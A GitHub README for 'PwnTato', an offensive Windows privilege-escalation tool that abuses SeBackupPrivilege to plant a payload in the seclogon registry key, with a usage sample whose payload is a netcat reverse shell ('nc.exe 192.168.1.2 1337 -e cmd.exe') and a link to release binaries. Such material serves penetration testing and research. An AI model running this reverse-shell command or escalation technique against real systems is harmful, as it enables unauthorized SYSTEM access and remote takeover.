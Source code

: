 # PwnTato

PwnTato is a local privilege escalation tool that facilitates the transition from Windows Service Accounts to NT AUTHORITY\SYSTEM. It leverages the **SeBackupPrivilege** token privilege to inject a payload into the **seclogon** registry key.


![PwnTato Logo](https://i.imgur.com/XDE367N.png)

## Features

- **SeBackupPrivilege Injection:** PwnTato injects the SeBackupPrivilege token privilege into the process to manipulate registry keys.

- **Registry Key Manipulation:** The tool allows users to input a custom payload, which is then written to the `seclogon` registry key.

## Prerequisites

- Windows operating system
- PureBasic compiler (for compilation)

## Usage

```shell



              ██      ██  ██
            ██  ██  ██  ██  ██  ██████
          ██  ██  ████  ██    ██    ██
        ██      ██  ██    ██  ██    ██
          ████  ██    ██    ██    ██
            ████  ██    ██  ██  ████
            ██▒▒████████████████▒▒██
            ██▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██
            ██▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██
            ██▒▒██  ▒▒▒▒▒▒▒▒  ██▒▒██
            ██▒▒████▒▒▒▒▒▒▒▒████▒▒██
            ██▒▒▒▒▒▒▒▒████▒▒▒▒▒▒▒▒██
            ██▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██
            ████▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒████
              ████████████████████
                      v1.0
               PwnTato by @duty1g


[+] SeBackupPrivilege token injected to the process
[!] Enter your seclogon payload: c:\windows\temp\nc.exe 192.168.1.2 1337 -e cmd.exe      

```

## Binaries

Download the latest release from the [Releases](https://github.com/duty1g/PwnTato/releases) page. Choose the appropriate binary for your system.


## Disclaimer

This tool is intended for educational and testing purposes only. The author is not responsible for any misuse or damage caused by the use of this tool.

## Author

- duty1g <a href="https://twitter.com/duty_1g"><img src="https://img.shields.io/twitter/follow/duty_1g.svg?logo=twitter"></a>

Feel free to contribute or report issues!
